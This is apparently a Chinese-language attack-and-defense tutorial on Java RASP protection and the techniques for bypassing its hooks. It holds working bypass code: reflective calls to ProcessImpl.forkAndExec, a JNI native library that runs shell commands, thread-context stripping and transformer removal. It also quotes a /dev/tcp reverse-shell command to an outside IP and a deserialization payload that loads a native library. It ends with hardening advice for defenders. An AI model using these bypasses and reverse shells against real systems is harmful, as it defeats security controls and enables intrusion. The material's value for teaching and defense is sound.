


# RASP应用运行时自我保护机制与Hook绕过深度剖析

---

## 0. 基础前置知识扫盲：从“门卫”到“人体免疫系统”

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在上一篇笔记中，我们学习了 WAF（Web 应用防火墙）的工作原理。初学者可能会问：“既然已经有了 WAF，为什么业界还要研发 RASP？RASP 到底是什么？”

### 1. 为什么说传统 WAF 有致命短板？
传统 WAF 像**小区大门口的保安**：
- 保安只能看到进出车辆（HTTP 请求与响应报文），看不见住户在房间里在干什么。
- 如果攻击者把炸弹伪装成家具（运用上一篇讲过的分块混淆、Unicode 变形、畸形协议绕过），保安只要看不懂就会直接放行；
- 等到了房间内部（进入 Java/PHP 代码环境），炸弹组装爆炸（SQL 注入执行、RCE 命令执行），保安根本无能为力。

### 2. 什么是 RASP（Runtime Application Self-Protection）？
**RASP（应用运行时自我保护）** 就像**人体体内的白细胞与免疫系统**：
- 它不是独立运行在服务器外部的防火墙，而是**直接寄生、嵌入在应用程序（如 JVM 虚拟机）进程内部**的代码模块！
- 无论外部 HTTP 请求被攻击者经过了多少层复杂的加密、编码或变形，**当代码真正要调用操作系统底层函数（例如真正要执行 `rm -rf /` 或真正要向数据库发 SQL 时），都必须在 JVM 内部原形毕露**。
- RASP 在这些底层危险函数的必经之路上设下“哨卡”（Hook 点），一旦发现传入的参数来自外部不可信输入且包含高危语义，立即在进程内部抛出异常并熔断执行！



---

## 1. RASP 底层核心机制：Java Agent 与字节码插桩

在 Java 生态中，主流的 RASP（如百度开源的 OpenRASP、阿里各大商业 RASP 等）几乎 100% 依赖 **Java Agent** 机制实现。

### 1.1 Java Agent 运行原理：Premain vs Agentmain
- **`premain`（静态加载模式）**：
  在 JVM 启动参数中追加 `-javaagent:/path/to/rasp.jar`。在应用程序的 `main()` 函数执行之前，首先执行 RASP 的 `premain()` 方法。
- **`agentmain`（动态 Attach 模式）**：
  利用 JVM 提供的 Attach API，能够在**已经处于运行状态的 Java 进程**中动态注入并挂载 RASP 探针，无需重启业务服务。

### 1.2 字节码插桩（Bytecode Instrumentation）
Java 提供了 `java.lang.instrument.Instrumentation` 接口。
RASP 通过注册 `ClassFileTransformer`，利用 ASM、Javassist 或 Byte Buddy 等字节码操作框架，在目标类被加载到内存之前（或运行时通过 `retransformClasses`），**动态修改其二进制字节码**。

```java
// 简化的 RASP 字节码插桩伪代码逻辑
public class ProcessBuilderTransformer implements ClassFileTransformer {
    @Override
    public byte[] transform(ClassLoader loader, String className, ...) {
        if ("java/lang/ProcessBuilder".equals(className)) {
            // 在 start() 方法的入口处插入 RASP 的安全检查代码：
            // RaspSecurityCheck.checkCommand(this.command);
            return modifiedBytecode;
        }
        return null;
    }
}
```

### 1.3 RASP 核心危险行为监控点清单（Sink 点）
| 监控攻击类型 | 典型被 Hook 的 Java 底层类与方法 | 拦截检测逻辑 |
| :--- | :--- | :--- |
| **命令执行 (RCE)** | `java.lang.ProcessBuilder.start()`<br>`java.lang.ProcessImpl.start()` | 检查命令是否包含 `whoami`, `curl`, `bash -i` 等黑名单；分析是否源于 Web 请求线程。 |
| **文件任意读写** | `java.io.FileInputStream.open()`<br>`java.io.FileOutputStream.open()` | 检查文件路径是否包含 `../../`、`/etc/passwd`、`C:/Windows/win.ini` 等敏感文件。 |
| **SQL 注入** | `java.sql.Statement.execute()`<br>`java.sql.PreparedStatement.execute()` | 对拼接后的完整 SQL 语句调用内置 SQL 解析器检查是否改变了原 AST 抽象语法树结构。 |
| **JNDI 注入** | `javax.naming.Context.lookup()` | 校验 lookup 参数是否以 `ldap://` 或 `rmi://` 开头且指向外部非可信 IP。 |
| **表达式执行** | `ognl.Ognl.getValue()`<br>`org.springframework.expression.Expression.getValue()`| 检测是否在表达式中调用反射或类加载器。 |

---

## 2. 攻防感知：攻击者如何识别目标存在 RASP？

在黑盒或受限实战中，盲目发 Payload 容易触发 RASP 告警被封 IP。攻击者通常通过以下特征识别 RASP：

1. **主动抛出异常查看堆栈跟踪（Stack Trace）**：
   故意构造一个轻微非法的调用（例如读不存在的文件），捕获返回的错误回显。
   - 若堆栈中出现 `com.baidu.openrasp...`、`com.alibaba.security...`、`org.jrasp...` 等包名，说明 RASP 100% 存在且已注入上下文。
2. **命令执行报错差异**：
   普通的 Linux 系统执行被拦截通常返回应用自身的 403 或 500；如果返回特征 JSON（如 `{"status": 302, "message": "Request blocked by OpenRASP"}`），可直接判定。
3. **反射枚举 ClassLoader 与 JVM 参数**：
   在已经拥有低权限代码执行（如模板注入、反序列化执行）的情况下，枚举已加载的类列表中是否包含 `java.lang.instrument.ClassFileTransformer` 的实现类。

---

## 3. RASP 核心对抗与绕过技术全景（降维打击）

由于基于 Java Agent 的 RASP **只能监控和修改 JVM 内部管理的 Java 字节码与调用链**，攻击者可以通过打破 JVM 的常规规则实施“降维打击”。



---

### 3.1 绕过技术一：绕过顶层 API，直接反射底层 Native 方法 (`forkAndExec`)

#### 机制剖析：
大部分轻量级 RASP 仅在 `java.lang.Runtime.exec()` 或 `java.lang.ProcessBuilder.start()` 层进行 Hook。
在 JDK 内部，真正的执行链条是：
$$\text{Runtime.exec()} \to \text{ProcessBuilder.start()} \to \text{ProcessImpl.start()} \to \text{ProcessImpl.forkAndExec() (Native方法)}$$

`ProcessImpl` 属于 `java.lang` 包的包级私有类（Package-Private），外部无法直接 import。但是攻击者可以**利用 Java 反射直接调用最底层的 `ProcessImpl.forkAndExec`**，绕过前置的所有 Hook 检测！

#### 实战核心利用代码（JDK 8 Linux 环境）：
```java
// 1. 反射获取私有的 ProcessImpl 类
Class<?> processImplClass = Class.forName("java.lang.ProcessImpl");

// 2. 获取最深层的 native 方法 forkAndExec
Method forkAndExecMethod = processImplClass.getDeclaredMethod("forkAndExec", 
    int.class, byte[].class, byte[].class, byte[].class, int.class, 
    byte[].class, int.class, byte[].class, int[].class, boolean.class);
forkAndExecMethod.setAccessible(true);

// 3. 构造操作系统原生命令行参数 byte 数组
byte[] prog = "/bin/sh\0".getBytes();
byte[] argBlock = "sh\0-c\0id > /tmp/success.txt\0".getBytes();
int[] fds = new int[]{-1, -1, -1};

// 4. 直接跨越 ProcessBuilder 哨卡，调用底层 Native 生成子进程！
forkAndExecMethod.invoke(null, 1, prog, argBlock, new byte[0], 0, new byte[0], 0, new byte[0], fds, false);
```

---

### 3.2 绕过技术二：JNI（Java Native Interface）动态库加载（终极降维打击）

#### 机制剖析：
这是攻破 RASP 最彻底的手段。
Java Agent 无论多么强大，它依然生活在 JVM 进程的“应用层虚拟机”中。
如果攻击者编写一个 C 语言编译的动态链接库（Linux 下为 `.so` 文件，Windows 下为 `.dll` 文件），在 C 语言内部调用标准 C 库函数 `fork()` 和 `execve()`：
- 动态库加载后，C 代码直接与 Linux 内核交互（发起系统调用 `sys_execve`）；
- **全过程完全不经过任何 Java 类库**，JVM 内部没有任何类被调用，RASP 的字节码探针完全被蒙在鼓里（全盲状态）！

#### 步骤 1：编写恶意 C 语言代码并编译为 `.so`
```c
// evil.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <jni.h>

// 导出一个 JNI 函数供 Java 调用
JNIEXPORT void JNICALL Java_Evil_run(JNIEnv *env, jclass clazz, jstring cmd) {
    const char *nativeCmd = (*env)->GetStringUTFChars(env, cmd, 0);
    // 直接发起系统调用，不经过 JVM!
    system(nativeCmd);
    (*env)->ReleaseStringUTFChars(env, cmd, nativeCmd);
}
```
编译命令：
```bash
gcc -shared -fPIC -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/linux" evil.c -o libevil.so
```

#### 步骤 2：Java 端通过内存/临时目录加载并调用
```java
public class EvilJNI {
    // 声明 native 接口
    public static native void run(String cmd);

    public static void main(String[] args) {
        // 加载 C 动态链接库
        System.load("/tmp/libevil.so");
        // 调用执行，RASP 毫无察觉！
        run("id > /tmp/pwned.txt");
    }
}
```

---

### 3.3 绕过技术三：上下文剥离（Context Stripping）——异步线程与线程池

#### 机制剖析：
RASP 为了降低误报，绝不能“一刀切”地拦截所有命令执行。因为后端系统经常会有合法的定时任务或内部进程管理。
因此，成熟的 RASP 都会维护一个 **`ThreadLocal` 上下文**：
- 当一个 HTTP 请求到达 Tomcat 线程时，RASP 标记：`ThreadLocal.set("is_web_request", true)`；
- 随后如果检测到命令执行，且发现当前线程标记为 `is_web_request == true`，则认定为来自外部的攻击拦截；
- 如果命令执行是在后台没有 Web 标记的普通线程中触发，RASP 则倾向于判定为内部合法逻辑放行。

#### 对抗代码示例：
攻击者将恶意命令放入一个**全新的、与当前 Web 请求脱钩的线程池**或守护线程中异步执行：
```java
// 新起一个完全纯净的后台线程，抹除 ThreadLocal 上下文标记
new Thread(new Runnable() {
    @Override
    public void run() {
        try {
            // 在脱离 Web 请求的独立线程中执行，部分 RASP 丢失审计上下文判定放行
            Runtime.getRuntime().exec("whoami");
        } catch (Exception e) {}
    }
}).start();
```

---

### 3.4 绕过技术四：利用 Instrumentation API 内存自毁与字节码还原

#### 机制剖析：
若攻击者已经取得了 Java 高权限（例如注入了内存马），可以通过反射重新拿回 JVM 的核心控制权，反制 RASP 探针：
1. 通过反射从 `sun.misc.SharedSecrets` 或相关系统内部容器中获取当前正在运行的 `Instrumentation` 实例；
2. 获取 RASP 注册的所有 `ClassFileTransformer`；
3. 调用 `inst.removeTransformer(raspTransformer)` 注销 RASP 的拦截器；
4. 调用 `inst.retransformClasses(ProcessBuilder.class)`，**强制 JVM 将已被修改的字节码重新还原为 JDK 原始纯净字节码**，让 RASP 当场“脑死亡”！

---

## 4. 实战攻防对抗靶场演练：突破某 RASP 防护执行高危命令

### 靶场环境：
- Web 容器：Spring Boot 2.5 + JDK 8u202；
- 防御组件：安装了某主流商业级 Java RASP Agent，全局 Hook 了 `ProcessBuilder.start` 与 `Runtime.exec`，任何反弹 shell 行为均被瞬杀；
- 入口：系统存在任意文件上传漏洞与反序列化漏洞。

### 进攻实施链条：

#### 阶段 1：探测与确认阻断
攻击者通过反序列化发送 `Runtime.getRuntime().exec("bash -c 'bash -i >& /dev/tcp/1.1.1.1/8888 0>&1'")`。
- **目标响应**：
  ```text
  [RASP-SECURITY-ALERT] Blocked high-risk command execution: ProcessBuilder.start() initiated from HTTP Worker Thread. Attack Signature matched: reverse-shell.
  ```
  执行被硬生生阻断。

#### 阶段 2：构建 JNI 绕过载荷
1. 本地利用 Linux C 编写脱离 JVM 的动态链接库 `libbypass.so`，内部封装 `libc::execl("/bin/bash", ...)`；
2. 利用文件上传点，将 `libbypass.so` 落地到目标机器 `/tmp/libbypass.so`；
3. 构造特定的 Java 反序列化利用类，在静态初始化块中直接加载该动态库：

```java
public class PwnPayload implements java.io.Serializable {
    static {
        try {
            System.load("/tmp/libbypass.so");
            // 直接由 Native 代码向公网反弹 Shell，完全绕过字节码层的 RASP Hook！
        } catch (Throwable t) {}
    }
}
```

#### 阶段 3：攻破与上线
向反序列化接口发送该对象，服务器在反序列化调用 `System.load()` 时，动态链接库直接由操作系统加载执行，公网监听器瞬间接收到底层 Bash Shell，整个过程 RASP 告警日志为 **0** 条！

---

## 5. 蓝队 RASP 终极防御与深层安全加固指南

单纯依赖应用层字节码插桩已经无法阻挡顶尖攻击者的降维打击。新一代纵深防御体系必须做到：

1. **Native 层 Hook 与 JNI 注册监控**：
   - RASP 探针不仅要插桩 Java 字节码，还必须利用 C/C++ 编写底层 Agent（基于 JVM TI 接口），Hook JVM 的底层函数 `JVM_RegisterNatives` 和 `System.loadLibrary`，对所有尝试动态加载外部 `.so/.dll` 的行为进行签名校验。
2. **底层操作系统 Seccomp / AppArmor 沙箱约束**：
   - 在 Docker 容器或 Linux 宿主机层面配置 `seccomp` 过滤规则，禁止 Java 进程发起未经授权的 `execve`、`fork` 系统调用，即便通过 JNI 逃出了 JVM，依然在内核层被拒绝。
3. **启用 Java 模块化系统与强封装（JDK 11 / 17+）**：
   - 彻底关闭 `--add-opens`，杜绝攻击者使用 `Unsafe` 或非受检反射访问 `java.lang.ProcessImpl` 等内部私有类。
4. **WAF 与 RASP 双剑合璧**：
   - WAF 挡在外围过滤绝大多数海量扫描与初级攻击载荷；RASP 坐镇应用体内防范零日（0-Day）与深度隐蔽利用，形成双层互补的立体防御屏障。
